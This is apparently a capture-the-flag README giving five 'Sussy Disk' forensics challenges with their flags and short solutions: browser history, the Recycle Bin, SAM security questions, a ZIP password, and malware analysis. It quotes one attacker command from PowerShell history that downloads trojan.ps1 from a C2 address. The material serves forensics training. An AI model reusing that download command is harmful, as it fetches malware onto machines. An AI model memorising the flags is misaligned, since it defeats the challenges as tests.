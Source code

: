 # Sussy Disk 1

| Key            | Value                                                                                                                                                                                                                                                                                                                                                                            |
|----------------|----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| Challenge Name | Sussy Disk 1                                                                                                                                                                                                                                                                                                                                                                     |
| Author         | warlocksmurf                                                                                                                                                                                                                                                                                                                                                                     |
| Category       | Forensics                                                                                                                                                                                                                                                                                                                                                                        |
| Description    | The forensics team recently recovered a disk image from a compromised machine. Your job as an intern is to help uncover what the attacker had done to the compromised machine and what artifacts you can dig up for the final report. After infiltrating the machine, the attacker searched up some suspicious stuff on the Internet, I wonder what was the attacker looking for? |
| Challenge Type | Static                                                                                                                                                                                                                                                                                                                                                                           |
| Flag           | sunctf{g00gle_the_g0at}                                                                                                                                                                                                                                                                                                                                                          |
| Score          | ???                                                                                                                                                                                                                                                                                                                                                                              |

*File(s) in `attachments/` are distributed to the participants.*

## Solution

<details>
<summary>Click to expand</summary>

1) Extract and analyze the Google History file.

   ![sol1](docs/sol1.png)

</details>

# Sussy Disk 2

| Key            | Value                                                                                                       |
|----------------|-------------------------------------------------------------------------------------------------------------|
| Challenge Name | Sussy Disk 2                                                                                                |
| Author         | warlocksmurf                                                                                                |
| Category       | Forensics                                                                                                   |
| Description    | The victim mentioned that one of his file was missing from the machine, the attacker might have deleted it. |
| Challenge Type | Static                                                                                                      |
| Flag           | sunctf{remember_your_handles}                                                                               |
| Score          | ???                                                                                                         |

*File(s) in `attachments/` are distributed to the participants.*

## Solution

<details>
<summary>Click to expand</summary>

1) Analyze the Recycle Bin for the deleted flag.

   ![sol2](docs/sol2.png)

</details>

# Sussy Disk 3

| Key            | Value                                                                                                                                                             |
|----------------|-------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| Challenge Name | Sussy Disk 3                                                                                                                                                      |
| Author         | warlocksmurf                                                                                                                                                      |
| Category       | Forensics                                                                                                                                                         |
| Description    | The forensics team needs to know the answers of the backup questions created by the victim. Can you retrieve them?<br><br>Flag format: `sunctf{Ans1_Ans2_An3}`. |
| Challenge Type | Static                                                                                                                                                            |
| Flag           | sunctf{Wowiee_SuperTsumu_Shen}                                                                                                                                    |
| Score          | ???                                                                                                                                                               |

*File(s) in `attachments/` are distributed to the participants.*

## Solution

<details>
<summary>Click to expand</summary>

1) Two ways: extract and analyze the SAM registry, or use tools
   from [Nirsoft](https://www.nirsoft.net/utils/security_questions_view.html) to automatically extract it.

   ![sol4](docs/sol4.png)

</details>

# Sussy Disk 4

| Key            | Value                                                                                                                                                |
|----------------|------------------------------------------------------------------------------------------------------------------------------------------------------|
| Challenge Name | Sussy Disk 4                                                                                                                                         |
| Author         | warlocksmurf                                                                                                                                         |
| Category       | Forensics                                                                                                                                            |
| Description    | The attacker attempted to access a confidential ZIP file stored somewhere in the machine. The attacker was also known to be a huge fan of PowerShell. |
| Challenge Type | Static                                                                                                                                               |
| Flag           | sunctf{powershell_is_my_favourite_language}                                                                                                          |
| Score          | ???                                                                                                                                                  |

*File(s) in `attachments/` are distributed to the participants.*

## Solution

<details>
<summary>Click to expand</summary>

1) A password-protected ZIP file can be obtained from the Documents folder. Since the question mentioned the attacker is
   a fan of Powershell, the password can be obtained there.

   ![sol3](docs/sol3.png)

</details>

# Sussy Disk 5

| Key            | Value                                                                                           |
|----------------|-------------------------------------------------------------------------------------------------|
| Challenge Name | Sussy Disk 5                                                                                    |
| Author         | warlocksmurf                                                                                    |
| Category       | Forensics                                                                                       |
| Description    | Finally, it is time to identify the malware and understand its functions. The flag has 3 parts. |
| Challenge Type | Static                                                                                          |
| Flag           | sunctf{malware_analysis_is_not_that_hard}                                                       |
| Score          | ???                                                                                             |

*File(s) in `attachments/` are distributed to the participants.*

## Solution

<details>
<summary>Click to expand</summary>

1) The Powershell history will show that a malicious Powershell script is downloaded from a C2. Analyzing the powershell
   script, the first part of the flag can be identified.

   `Invoke-WebRequest "http://192.168.1.73:8000/trojan.ps1" -OutFile C:\Users\warlocksmurf\Downloads\trojan.ps1`

   ![sol5](docs/sol5.png)

2) The Powershell script also dropped a base64 encoded malware to the Pictures folder. Going to the folder, an encrypted
   image can be identified with the malware. Analyzing the malware, it encrypted the image with XOR 35 and placed the
   third part of the flag in Temp folder.

   ![sol6](docs/sol6.png)

   ![sol7](docs/sol7.png)

3) The third part of the flag is a simple base64 and ROT13 encoded text.

   ![sol8](docs/sol8.png)

</details>
